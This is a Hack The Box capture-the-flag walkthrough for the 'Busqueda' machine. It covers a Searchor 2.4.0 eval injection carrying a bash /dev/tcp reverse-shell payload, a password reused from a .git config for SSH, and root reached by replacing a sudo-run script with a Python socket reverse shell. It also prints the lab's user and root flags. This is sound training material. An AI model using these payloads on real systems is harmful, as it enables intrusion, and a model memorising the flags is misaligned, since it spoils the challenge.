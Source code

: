 # Busqueda Walkthrough ![busqueda](https://github.com/securepadawan/Hack_The_Box/assets/66234098/9ba43378-389b-4aaa-8a46-bbff09ed722b)

# About 

- Operating System: Linux
- Point Value: 30 Total (20 System and 10 for User)
- Level: Easy
- Target IP Address: 10.129.138.207

# Vulnerabilities

- Reserve Shell Exploit

# Walkthrough

## HTB Pwnbox (Parrot)

Open Terminal and then do an nmap scan. `nmap -sV 10.129.138.207`

![busqueda1](https://github.com/securepadawan/Hack_The_Box/assets/66234098/a6a57759-492e-4f63-8472-e121a7bd502f)

This nmap scan shows port 80 is open which we can use. When opening the browser go to `10.129.138.207` , it re-directs to `searcher.htb` . 

![busqueda2](https://github.com/securepadawan/Hack_The_Box/assets/66234098/f1c34be1-1e45-4428-abe2-2afab97db482)

It is necessary to modify the /etc/hosts. To do this, you will need to do `sudo nano /etc/hosts` and then add `10.129.138.207 searcher.htb`. 

![busqueda3](https://github.com/securepadawan/Hack_The_Box/assets/66234098/5eb73733-7430-4428-814e-597e5be55723)

*Note: If you try accessing /etc/hosts just by doing `nano /etc/hosts` to modify and save, you get a Permission denied message.*

![busqueda4](https://github.com/securepadawan/Hack_The_Box/assets/66234098/3c741791-f381-4908-9254-bd6a05359932)

After successfully exiting and saving /etc/hosts, go back to the browser and try accessing `10.129.138.207` again. The site comes up and shows the following:

![busqueda5](https://github.com/securepadawan/Hack_The_Box/assets/66234098/6a7b51ae-f489-4600-a09d-97f489fe304e)

When scrolling to the very bottom, I saw “Powered by Flash and Searchor 2.4.0”

![busqueda6](https://github.com/securepadawan/Hack_The_Box/assets/66234098/71a99b57-a2e6-4486-97d0-786b5e59ab2b)

When doing a search for “Searchor 2.40 exploit”, I found the following [GitHub](https://github.com/jonnyzar/POC-Searchor-2.4.2). I can then go back to my terminal and do a `git clone https://github.com/jonnyzar/POC-Searchor-2.4.2.git` .

![busqueda7](https://github.com/securepadawan/Hack_The_Box/assets/66234098/08b29339-84ca-4786-9a20-e9102ac18ffb)

After download complete, I can confirm by doing a `ls` and see POC-Searchor-2.4.2 is saved. I can then change directory (`cd POC-Searchor-2.4.2`) and run another `ls` to see the items listed there.

![busqueda8](https://github.com/securepadawan/Hack_The_Box/assets/66234098/319dafd4-bc05-420e-8770-79963e678742)

I can then did `cat [README.md](http://README.md)` to read the file. When reading the file, it mentions Python eval. 

![busqueda9](https://github.com/securepadawan/Hack_The_Box/assets/66234098/dcd87d17-e090-4c5c-b3a6-ae0284a7e2c5)

So I did some research and found a site that mentions [Arbitrary Code Execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/). I copied the code under Reverse Shell `__import('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')`

![busqueda10](https://github.com/securepadawan/Hack_The_Box/assets/66234098/77c3822e-afde-46e2-ab9e-f6b41af41350)

I then had to modify this code by adding `'),` , modifying the IP address to `10.10.14.12` (which is my computer) and adding at the end a space and `#` . This is how the whole thing looked like: `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.12/4444 0>&1"') #` . I found this by doing combinations of the Arbitrary Code Execution listed above the Reverse Shell.

![busqueda11](https://github.com/securepadawan/Hack_The_Box/assets/66234098/79c5f514-7672-4d62-879f-0a34d31110a1)

![busqueda12](https://github.com/securepadawan/Hack_The_Box/assets/66234098/1dc4f4cf-c484-428e-af47-48dd7207567f)

After typing in my terminal `nc -lvnp 4444` and then clicking “Search”, the following showed on my terminal. I also typed `whoami` to confirm.

![busqueda13](https://github.com/securepadawan/Hack_The_Box/assets/66234098/597a0a4b-11d7-4418-9b2f-7de81e39f9a1)

I then ran the following commands: `ls -la` `cd .git` `ls -la` 

![busqueda14](https://github.com/securepadawan/Hack_The_Box/assets/66234098/f7cd9005-f948-4da5-a2f1-3b736e290306)

After running `cat config` , I came across the following. `jh1usoih2bkjaspwe92` turns out is the password

![busqueda15](https://github.com/securepadawan/Hack_The_Box/assets/66234098/964c3cfa-4420-4e4e-87e8-3ab7434713c4)

I created a second terminal session and did `ssh svc@10.129.138.207` . When prompted for the ECDSA key fingerprint, typed`yes` . For the password, I put `jh1usoih2bkjaspwe92` .

![busqueda16](https://github.com/securepadawan/Hack_The_Box/assets/66234098/ceff25b5-b74d-4a28-a7cc-c4a7bb4b7dbc)

I used the command`whoami` to confirm.

![busqueda17](https://github.com/securepadawan/Hack_The_Box/assets/66234098/2bc5b580-ecdd-4b59-9467-feed52cacb8f)

When running `ls -la` , I saw the file `user.txt`. So I can `cat user.txt` and found the user flag.

![busqueda18](https://github.com/securepadawan/Hack_The_Box/assets/66234098/421103bf-1b95-479d-a2bf-013111f557ff)

User Flag: `8bae7d0bac9792fcb1a6fc7bedf96360`

I went ahead and ran `sudo -l` to see check commands. I see the command `/usr/bin/python3 /opt/scripts/system-checkup.py *` and ran it. Again, it prompted for the password `jh1usoih2bkjaspwe92` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c430f45e-bd9d-4a34-9732-b8e1a2f31099/Untitled.png)

I ran the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *` and then the password `jh1usoih2bkjaspwe92` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dd400596-cf03-4ceb-935c-263cb55fe372/Untitled.png)

I ran `cd /opt/scripts` and `ls` and saw full-checkup.sh

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a2a18672-58e5-4eff-b3c1-a82204110b2c/Untitled.png)

I executed `cd -` and `touch [full-checkup.sh](http://full-checkup.sh)` to download the file.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f3c82fb9-3308-4ad6-9d15-3da3cd3f28be/Untitled.png)

I research Python Privilege Escalation and found [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) that executes a reverse shell.

`import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")` . I would need to modify to remove “<local-ip>” to replace it with my machine IP address.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/91f8bc91-c464-40db-861f-5b6700e4476b/Untitled.png)

I opened another terminal (third one if you are counting) and ran `nano [full-checkup.sh](http://full-checkup.sh)` to modify the file.

`#!/usr/bin/python3`
`import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1d96fb74-9758-4854-9606-73c0b8f69a0c/Untitled.png)

*Hint: If you don’t like nano, you can also use gedit. You may need to install it first by running `sudo apt-get install gedit` and then `gedit [full-checkup.sh](http://full-checkup.sh)` to modify the file.*

Once you save and exit, you will need to start a server by running `python -m http.server`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa851108-84bd-4df4-b0a9-dc6147e4fc3d/Untitled.png)

Switching back to the second terminal, you need to run a wget to pull the file. `wget http://10.10.14.12:8000/full-checkup.sh`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/64ca4411-2f76-4f4b-9632-4d8ad93be65d/Untitled.png)

You can see on the third terminal shows the `get`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5af0e0fd-ea08-435d-b8e4-aebf0577e863/Untitled.png)

On the second terminal, need to modify the permission of the file using `chmod +x full-checkup.sh`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b96494c7-046f-48ff-908f-fb4f3fe0f0de/Untitled.png)

Now on the fourth terminal (don’t worry, this is the last one), I ran `sudo su` and `nc -lnvp 4444`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6f100457-5ff6-40a6-927f-6971c79ac659/Untitled.png)

I switched back to my second terminal and execute the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` . It again requested the password (same thing as above). 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5d73eae2-00ee-42a9-a088-80a5f077e9a9/Untitled.png)

*Hint: If you get an error here, you didn’t something wrong.*

Switching back over to my fourth terminal, I have root@busqueda access. I also ran `whoami` to confirm. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c4c191e3-80ee-4d89-9098-4e6ba1f40f78/Untitled.png)

I then did `cd /root` , `ls -la` and saw the `root.txt` file. So I ran `cat root.txt` and got the root flag.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c3dabc54-3d3f-446e-a287-84488801b0c2/Untitled.png)

# Flag

User Flag: `8bae7d0bac9792fcb1a6fc7bedf96360`

Root Flag: `4e40b0065928fb42069eb24c0c647ddc`
